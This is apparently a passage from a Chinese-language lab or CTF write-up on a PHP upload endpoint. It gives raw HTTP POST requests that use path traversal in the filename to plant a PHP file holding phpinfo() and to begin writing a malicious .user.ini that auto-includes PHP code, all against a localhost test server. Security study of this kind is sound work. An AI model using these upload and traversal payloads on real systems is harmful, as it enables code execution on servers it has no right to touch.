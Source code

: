 ```
http_response_code($status_code);

// 输出结果
echo json_encode([
    'status_code' => $status_code,
    'msg' => $msg,
]);
```

 Payload:

```
POST /upload.php?filename=../2.php7 HTTP/1.1
Host: 127.0.0.1:1786
Content-Length: 328
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:1786
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryjZ9Nij7et6ARYuwt
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:1786/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryjZ9Nij7et6ARYuwt
Content-Disposition: form-data; name="name"; filename="2.php7"
Content-Type: application/octet-stream

<?php phpinfo();?>

------WebKitFormBoundaryjZ9Nij7et6ARYuwt
Content-Disposition: form-data; name="submit"

上传文件
------WebKitFormBoundaryjZ9Nij7et6ARYuwt--
```

构造恶意.user.ini配置，文件自动添加<?php phpinfo();?>,同样需要目录穿越

```
POST /upload.php?name=../.user.ini HTTP/1.1
Host: 127.0.0.1:1786
Content-Length: 316
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://127.0.0.1:1786
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycwwSiKQAMI3rRJ0R
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
```